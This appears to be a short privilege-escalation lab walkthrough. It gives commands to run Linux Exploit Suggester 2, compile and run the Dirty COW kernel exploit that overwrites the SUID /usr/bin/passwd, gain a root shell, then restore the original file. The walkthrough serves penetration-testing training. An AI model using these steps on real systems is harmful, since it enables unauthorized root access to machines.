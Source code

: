 Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

**Run the "Linux Exploit Suggester 2" tool to identify potential kernel exploits on the current system:**
```python
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```
The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for Dirty COW can be found at **/home/user/tools/kernel-exploits/dirtycow/c0w.c**. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

**Compile the code and run it (note that it may take several minutes to complete):**
```python
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w   ./c0w
```

**Once the exploit completes, run /usr/bin/passwd to gain a root shell:**
```python
/usr/bin/passwd
```

**Remember to restore the original "/usr/bin/passwd" file and exit the root shell before continuing!**
```python
mv /tmp/bak /usr/bin/passwd   
exit
```
